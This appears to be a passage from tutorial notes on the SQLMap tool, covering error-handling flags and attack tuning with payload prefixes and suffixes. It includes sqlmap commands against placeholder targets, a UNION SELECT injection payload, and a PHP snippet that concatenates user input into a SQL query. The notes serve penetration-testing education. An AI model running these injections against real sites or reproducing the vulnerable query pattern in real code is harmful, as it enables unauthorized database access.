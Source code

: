 ```json
    }
  }]
}
```

## Handling SQLMap Erorrs

1. `--parse-errors` - to parse the DBMS errors (if any) and displays them as part of the program run

2. `-t` - stores the whole traffic content to an output file

```sh
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

3. `-v` - verbosity level

```sh
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

4. `--proxy` - redirect the whole traffic through a proxy

---

# Attack Tuning

- In default, every payload sent to the target consists of
  - vector (eg - `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target
  - boundaries (eg - `<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement

## Prefix/Suffix

- in rare cases, there is a requirement for special prefix and suffix values
- `--prefix` , `--suffix`

```sh
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

- eg - source php code

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

- after injection with vector `UNION ALL SELECT 1,2,VERSION()` bounded with the prefix `%'))` and suffix `-- -`

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```
